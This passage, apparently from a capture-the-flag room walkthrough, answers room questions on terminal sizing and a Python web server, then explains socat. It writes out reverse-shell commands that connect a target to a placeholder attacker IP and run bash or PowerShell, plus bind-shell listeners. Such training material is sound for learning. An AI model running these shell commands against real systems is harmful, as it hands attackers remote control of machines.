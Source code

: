 This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

### Question 1:
How would you change your terminal size to have 238 columns?

**Answer:** stty cols 238

### Question 2:
What is the syntax for setting up a Python3 webserver on port 80?

**Answer:** sudo python3 -m http.server 80


## Task 6 Socat
Socat is a powerful and versatile tool that shares some similarities with Netcat but offers significantly more flexibility. Think of Socat as a network connector between two endpoints — whether that's between a keyboard and a port, two ports, or even a port and a file. It’s like a portal linking two systems together, allowing data to pass seamlessly.

### Reverse Shells with Socat
Setting up reverse shells using Socat is slightly more complex than with Netcat, but it offers more stability and options.

**Basic Reverse Shell Listener**

On the attacker machine, use the following command to start a listener:
```bash
socat TCP-L:<PORT> -
```

This command links a TCP listener to standard input/output, similar to:
```bash
nc -lvnp <port>
```

Connecting from Target
- On Windows:
  ```bash
  socat TCP:<ATTACKER-IP>:<PORT> EXEC:powershell.exe,pipes
  ```
  The pipes option is crucial here for compatibility between Unix-style I/O and Windows command-line interfaces.
- On Linux:
  ```bash
  socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li"
  ```

### Bind Shells with Socat
Bind shells allow the target machine to host the listener. Here’s how you set them up:

**Target (Listener):**
- On Linux:
  ```bash
  socat TCP-L:<PORT> EXEC:"bash -li"
  ```
- On Windows:
  ```bash
  socat TCP-L:<PORT> EXEC:powershell.exe,pipes
  ```
